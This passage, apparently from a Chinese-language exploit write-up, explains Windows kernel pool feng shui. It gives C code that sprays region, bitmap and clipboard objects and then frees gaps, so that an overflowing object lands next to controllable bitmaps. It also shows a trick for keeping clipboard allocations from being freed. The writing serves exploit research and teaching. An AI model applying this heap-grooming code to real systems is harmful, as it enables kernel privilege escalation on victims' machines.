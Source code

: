 ```c
	//allocate Gh04 5000 region objects of size 0xbc0 which will reuse the free-ed bitmaps memory.
	for (int k = 0; k < 5000; k++) {
			CreateEllipticRgn(0x79, 0x79, 1, 1); //size = 0xbc0
	}
```

池风水进行到这一步，内核中内存页的开始处有着 0xbc0 字节 Gh04 标记的对象，末尾有 0x80，剩下 0x3c0 字节是空闲的。
再分配 5000 个大小为 0x3c0 字节的 bitmap 对象填充每页内存页剩余的空间，这样对 bitmap 对象的溢出就受到我们的控制了。

```c
	// Allocate Gh05 5000 bitmaps which would be adjacent to the Gh04 objects previously allocated
	for (int k = 0; k < 5000; k++) {
			bmp = CreateBitmap(0x52, 1, 1, 32, NULL); //size  = 3c0
			bitmaps[k] = bmp;
	}
```

下一步是把内存中所有 0x60 大小的先占满了，那么后面分配有溢出的对象时几乎肯定会落在我们的内存布局中。

```c
void AllocateClipBoard(unsigned int size) {
	BYTE *buffer;
	buffer = malloc(size);
	memset(buffer, 0x41, size);
	buffer[size-1] = 0x00;
	const size_t len = size;
	HGLOBAL hMem = GlobalAlloc(GMEM_MOVEABLE, len);
	memcpy(GlobalLock(hMem), buffer, len);
	GlobalUnlock(hMem);
	OpenClipboard(wnd);
	EmptyClipboard();
	SetClipboardData(CF_TEXT, hMem);
	CloseClipboard();
	GlobalFree(hMem);
}

// Allocate 1700 clipboard objects of size 0x60 to fill any free memory locations of size 0x60
for (int k = 0; k < 1700; k++) { //1500
		AllocateClipBoard2(0x30);
}
```

这里要说明的是，在分配 ClipBoard 对象的函数中，如果忽略掉 OpenCliboard, CloseClipBboard, EmptyClipboard
直接调用 SetClipboardData 的话，被分配的对象永远不会释放掉，具体可以再实验下。

最后空出来一点缺口，释放掉内存页尾部 0x80 字节的对象。准确来说准备了 2000 个缺口，让目标对象被分配到这 2000
个中的其中一个位置。

最终的内存页布局如图：

![]({{site.baseurl}}/images/2018-10-17/final_pool_page.png)

在 windbg 中查看：

![]({{site.baseurl}}/images/2018-10-17/final_pool_page2.png)
